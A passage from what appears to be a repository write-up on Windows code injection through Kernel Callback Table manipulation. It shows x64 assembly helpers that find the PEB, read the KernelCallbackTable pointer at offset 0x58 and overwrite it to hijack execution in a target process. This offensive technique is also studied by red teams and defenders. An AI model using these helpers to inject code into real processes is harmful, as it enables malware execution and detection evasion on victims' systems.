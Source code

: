 This process demonstrates step-by-step code injection through Kernel Callback Table manipulation, providing complete control over execution in the target process’s context.



















---

## Helper Assembly Code

To enhance the injection process, we use some assembly functions defined in `helper.asm`. These functions help us locate the PEB and manipulate the Kernel Callback Table more efficiently.

### LocatePEB

This function retrieves the address of the PEB for the current process by accessing the `gs` segment register, which points to the Thread Information Block (TIB) in x64 architectures.

```asm
LocatePEB PROC
    mov rax, qword ptr gs:[60h] ; Access PEB in x64
    ret
LocatePEB ENDP
```

### ResolveKernelCallbackTable

Given the PEB address in the `RCX` register, this function retrieves the address of the Kernel Callback Table by accessing the memory at an offset of `0x58` within the PEB structure.

```asm
ResolveKernelCallbackTable PROC
    mov rax, qword ptr [rcx + 58h] ; Offset for KernelCallbackTable in PEB (0x58)
    ret
ResolveKernelCallbackTable ENDP
```

### WriteKernelCallbackTable

This function updates the Kernel Callback Table address in the PEB by writing a new address to the specified offset.

```asm
WriteKernelCallbackTable PROC
    mov qword ptr [rcx + 58h], rdx    ; Write the new KernelCallbackTable address
    ret
WriteKernelCallbackTable ENDP
```
